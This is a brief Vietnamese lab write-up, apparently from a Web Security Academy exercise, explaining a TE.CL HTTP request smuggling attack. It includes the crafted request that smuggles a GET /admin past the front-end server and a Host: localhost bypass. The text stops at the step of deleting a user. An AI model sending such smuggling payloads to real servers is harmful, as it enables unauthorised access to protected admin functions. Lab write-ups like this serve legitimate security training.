 ## Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

1. Ở đây là lỗ hổng TE.CL. Craft request như sau:
```
Content-Length: 4
Transfer-Encoding: chunked

6e
GET /admin HTTP/1.1
Host: 0aa800f904e893d7c14b8a4e00430052.web-security-academy.net
Content-Length: 10

x=
0


```

2. Khi gửi request, FE server kiểm tra hợp lệ. Còn khi truyền tới BE server nó sẽ chỉ đọc đến hết đoạn `6e`. Đoạn request còn lại sẽ được gán vào phía trước của request sau. Khi đó gửi request này lần 2 nó sẽ có dạng 
```
GET /admin HTTP/1.1
Host: 0aa800f904e893d7c14b8a4e00430052.web-security-academy.net
Content-Length: 10

x=POST / H
```

3. Khi đó response thông báo chỉ có người dùng local mới được phép truy cập admin panel.

![image](https://user-images.githubusercontent.com/80744099/227266834-33dee9bb-a1a9-4a96-8721-fc1a2d4e4ef7.png)

4. Sửa giá trị của Host header thành `localhost` nhận thấy truy cập thành công trang admin.

![image](https://user-images.githubusercontent.com/80744099/227267441-deffb271-b817-4682-8df9-2ee43e4b26b9.png)

5. Craft request xóa user carlos

